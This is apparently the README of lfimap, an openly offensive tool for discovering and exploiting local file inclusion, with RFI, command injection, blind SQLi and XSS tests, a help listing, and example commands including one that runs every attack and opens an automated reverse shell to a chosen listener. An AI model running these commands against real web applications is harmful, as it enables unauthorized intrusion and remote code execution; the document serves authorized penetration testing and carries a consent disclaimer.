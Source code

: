 # lfimap
## Local file inclusion discovery and exploitation tool

### Main features
- data:// for remote command execution
- expect:// for remote command execution
- input:// for remote command execution
- filter:// for arbitrary file inclusion
- file:// for arbitrary file inclusion
- Remote file inclusion for code execution
- Path truncation for arbitrary file inclusion
- Command injection for remote command execution
- Generic time based blind sql injection testing
- Reflected XSS testing
- Option to test POST arguments
- Option to specify custom http headers
- Option to specify cookies for authenticated requests
- Option to specify a web proxy to send requests through
- Option to specify delay in between requests
- Option for automated reverse shell access upon successful remote code execution

### Documentation
- [Installation](https://github.com/hansmach1ne/lfimap/wiki/Installation)
- [Usage](https://github.com/hansmach1ne/lfimap/wiki)

### What features are working currently
- Scan parameters for path traversal (different bypasses, nullbyte, path normalization, string stripping injection, single and double URL encoding, etc..)
- Scan parameters for local file inclusion using wrappers (filter, input, data, expect, file)
- Scan parameters for remote file inclusion (remote internet facing website, if LHOST address is provided test by hosting a file on local web server)
- Scan parameters for results-based and blind command injection (different injection sequences, $IFS, ${IFS%??})
- Scan parameters for basic blind sql injection (currently supports only MySQL)
- Scan parameters for unsanitized reflection (Basic reflected XSS test using img onerror JavaScript event handler)
- Inline check for arbitrary open redirection
- Supports scans for GET and POST request parameters
- Supports scans through a proxy
- Supports scans with custom session cookies, user-agent, referer and/or HTTP headers
- Supports scans and exploitation with delay in between requests
- Supports scans and exploitation for windows and linux web servers
- Supports automated reverse shell upon RCE detection (Current methods that support this are: data, input and expect wrappers, remote file inclusion, command injection, http access log poisoning)

### What features will work in future
- RCE attack using /self/fd, /self/environ techniques and http error log poisoning
- Better Generic blind SQLi test support for Oracle, MsSQL and PostgreSQL database engines
- Better XSS test using different tags (that will try to bypass waf with more obscure payloads)
- Better RFI test using different file extensions, nullbyte...
- Automatic parameter recognition, select parameters to test with * (star) value or with '-p' parameter
- Request retry system for dropped requests
- Support testing with raw http request from a file
- Support for different transport protocols in POST request (xml and json)
- Support to test and exploit HTTP header values
- Enumeration category of options that will use found vulnerabilities to find out more about the system
- Output results to a file
- False positive check

### -h, --help
```                  
usage: lfimap.py [-U [url]] [-F [urlfile]] [-C <cookie>] [-D <request>] [-H <header>] [-P <proxy>] ć
[--useragent <agent>] [--referer <referer>] [--param <name>] [--delay <seconds>] [--no-stop] [-f] [-i] 
[-d] [-e] [-t] [-r] [-c] [--file] [--xss] [--sqli] [--info] [-a] [-x] [--lhost <lhost>] [--lport <lport>] 
[-wT <path>] [-wC <path>] [-v] [-h]

lfimap, Local File Inclusion discovery and exploitation tool

MANDATORY:
  -U [url]             		 Specify url, Ex: "http://example.org/vuln.php?param=PWN" 
  -F [urlfile]         		 Specify url wordlist (every line should have --param|'PWN'.)

GENERAL OPTIONS:
  -C <cookie>          		 Specify session cookie, Ex: "PHPSESSID=1943785348b45"
  -D <request>         		 Do HTTP POST value test. Ex: "param=PWN"
  -H <header>          		 Specify additional HTTP header(s). Ex: "X-Forwarded-For:127.0.0.1"
  -P <proxy>           		 Specify Proxy IP address. Ex: "http://127.0.0.1:8080"
  --useragent <agent>  		 Specify HTTP user agent
  --referer <referer>  		 Specify HTTP referer
  --param <name>       		 Specify different test parameter value
  --delay <seconds>    		 Specify delay in seconds in-between requests
  --no-stop            		 Don't stop using same method upon findings

ATTACK TECHNIQUE:
  -f, --filter         		 Attack using filter:// wrapper
  -i, --input          		 Attack using input:// wrapper
  -d, --data           		 Attack using data:// wrapper
  -e, --expect         		 Attack using expect:// wrapper
  -t, --trunc          		 Attack using path truncation with wordlist (default "short.txt")
  -r, --rfi            		 Attack using remote file inclusion
  -c, --cmd            		 Attack using command injection
  --file               		 Attack using file:// wrapper
  --xss                		 Test for reflected XSS
  --sqli               		 Test for SQL injection
  --info               		 Test for basic information disclosures
  -a, --all            		 Use all available methods to attack

PAYLOAD OPTIONS:
  -x, --exploit        		 Exploit to reverse shell if possible (Setup reverse listener first)
  --lhost <lhost>      		 Specify local ip address for reverse connection
  --lport <lport>      		 Specify local port number for reverse connection

WORDLIST OPTIONS:
  -wT <path>           		 Specify wordlist for truncation test
  -wC <path>           		 Specify wordlist for command injection test

OTHER:
  -v, --verbose        		 Print more detailed output when performing attacks
  -h, --help           		 Print this help message

```
### Examples 

#### 1) All attacks with '-a' (filter, input, data, expect and file wrappers, remote file inclusion, command injection, XSS, error disclosure).
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a`  

![Lfimap-1](https://user-images.githubusercontent.com/57464251/186299395-c6a91666-0e95-484e-8537-6f248d257f5b.png)


#### 2) Reverse shell command execution attack with '-x'
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a --lhost IP --lport PORT -x`  

![Lfimap-2](https://user-images.githubusercontent.com/57464251/186299661-7d6b480b-953f-4a7e-a806-5f39435f07fd.png)


#### 3) Post argument testing with '-D'

`python3 lfimap.py -U "http://IP/index.php" -D "page=PWN" -a`

![Lfimap-3](https://user-images.githubusercontent.com/57464251/186302047-0a2e9ab9-e4f0-43bb-b245-0235b6950ea0.png)


If you notice any issues with the software, please open up an issue. I will gladly take a look at it and try to resolve it. <br>
Pull requests are welcome.

[!] Disclaimer: Lfimap usage for attacking web applications without consent of the application owner is illegal. Developers assume no liability and are 
not responsible for any misuse and damage caused by using this program.

